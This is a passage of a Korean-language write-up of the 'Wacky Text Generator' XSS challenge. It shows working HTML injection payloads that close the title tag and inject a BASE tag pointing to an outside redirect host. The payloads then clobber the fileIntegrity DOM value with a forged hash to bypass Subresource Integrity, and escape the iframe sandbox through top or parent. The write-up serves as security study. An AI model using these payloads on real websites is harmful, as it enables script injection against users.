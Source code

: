![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/9.png?raw=true)

`/files/analytics/js/frame-analytics.js`의 값을 확인 해보면 위와 같다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/8.png?raw=true)

그리고 base 태그를 이용해서 스크립트를 삽입 한 후에는 `frame-analytics.js`의 값이 alert(1)로 변조가 된 것을 볼 수 있다. 

```
openssl dgst -sha384 -binary FILENAME.js | openssl base64 -A
```

그럼 `frame-.js`의 파일 값이 변조가 되었다고 왜 SRI에 걸리냐고 궁금해 할 수도 있다. 이는 Hash를 생성하는 방법을 보면 알다시피 특정 파일 값을 기준으로 hash 값을 생성한다. 즉, 문제에서는 alert(1)로 변조 되기 전에 파일 값으로 hash 값을 생성해서 사용하고 있는데, 우리가 해당 파일의 값을 alert(1)로 변조하였기 때문에 hash 값 자체가 달라지므로 SRI에 걸리게 된다.

```
fileIntegrity.value
```

하지만 js 단에서 Integrity 값을 가져 올 때, 위와 같이 값을 가져오게 된다. 하지만 우리는 해당 값으로 고유의 hash 값을 넣어줘야 하는데 이는 `Dom Clobbering` 기법을 이용해서 처리할 수 있다.

```html
<output id="fileIntegrity">Hello Pocas</output>
<script>
    alert(fileIntegrity.value);
</script>
```
![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/10.png?raw=truee)

위와 같이 코드를 올리고 실행하면 `fileIntegrity.value`의 값으로 `Hello Pocas`가 들어가는 것을 볼 수 있다.

```html
</title><output id="fileIntegrity">Hello Pocas</output>
```

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/11.png?raw=true)

그래서 위 페이로드를 작성해서 전달해주고, 콘솔 창에서 fileIntegrity.value를 입력해보면 우리가 입력한 고유의 값이 박힌 것을 볼 수 있다.

```html
</title><BASE HREF="https://nq5h16dpmbg2.redir.bugpoc.ninja"><output id="fileIntegrity">bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF%2bpI=</output>
```

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/12.png?raw=true)

그래서 `Dom Clobbering` 기법을 이용해서 fileIntegrity의 값을 변조해주니 SRI도 잘 우회한 것을 볼 수 있다. 하지만 위와 같이 `Sandbox` 설정에 의해서 alert() 함수가 실행이 되지 않는 것을 볼 수 있다. 하지만 이 `Sandbox`는 현재 Iframe에만 적용이 되어 있기 때문에 `top`, `parent` 돔의 참조해서 alert()를 끌어와 사용하면 쉽게 우회할 수 있다.

```html
</title><BASE HREF="https://p93yp8ell2os.redir.bugpoc.ninja"><output id="fileIntegrity">pUo1a+NaJwmvkDH8uSo6a1Z+emeQfamsHK2k52tjpTE=</output>
```

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/13.png?raw=true)
